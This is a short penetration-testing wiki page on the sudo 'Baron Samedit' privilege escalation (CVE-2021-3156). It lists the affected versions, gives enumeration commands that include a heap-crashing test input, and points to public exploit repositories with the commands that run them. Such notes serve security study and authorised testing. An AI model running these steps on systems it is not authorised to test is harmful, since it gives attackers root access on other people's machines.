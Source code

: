 ```yaml
---
description: CVE-2021–3156
---
```


# Baron Samedit


# Theory

The "Sudo Baro Samedit" is heap buffer overflow exploit allowing any user to escalate privileges to root. No misconfigurations required, this exploit works with the default settings, for any user regardless of Sudo permissions.  

The vulnerability was patched, but it didn’t update the version number for sudo or any other binary. So it’s not possible to tell definitively if a version if vulnerable or not just by version number.It can affects any unpatched version of the sudo program from **1.8.2–1.8.31p2** and **1.9.0–1.9.5p1**

# Practice

{% tabs %}
{% tab title="Enum" %}
To check, you run the following command. If this returns an error message `sudoedit: /: not a regular file`, then it’s vulnerable. If it returns the sudoedit usage, it’s not.
```bash
sudoedit -s /
```

Or with the following command, if the system is vulnerable it will overwrite the heap buffer and crash the process:
```bash
sudoedit -s '\' $(python3 -c 'print("A"*1000)')
```
{% endtab %}

{% tab title="Exploit" %}
We can use the [Sudo Baron Samedit Exploit](https://github.com/worawit/CVE-2021-3156) made by worawit.
For Linux distributions that glibc has tcache support and enabled (CentOS 8, Ubuntu >= 17.10, Debian 10) we can use exploit_nss.py:
```bash
python3 exploit_nss.py
``` 
For Linux distribution that glibc has no tcache support:
```
python exploit_nss_xxx.py #for specific version
python exploit_userspec.py #Last try
```

Alternativly, we may use the [Sudo Baron Samedit Exploit](https://github.com/blasty/CVE-2021-3156) made by blasty (Ubuntu 18.04.5, Ubuntu 20.04.1, Debian 10.0)  
On the vulnerable host we can do:
```
# Make file from source
make

# Replace 0 by your OS target
./sudo-hax-me-a-sandwich 0 

```

{% endtab %}
{% endtabs %}


## References

{% embed url="https://datafarm-cybersecurity.medium.com/exploit-writeup-for-cve-2021-3156-sudo-baron-samedit-7a9a4282cb31" %}

{% embed url="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-modify-permissions" %}
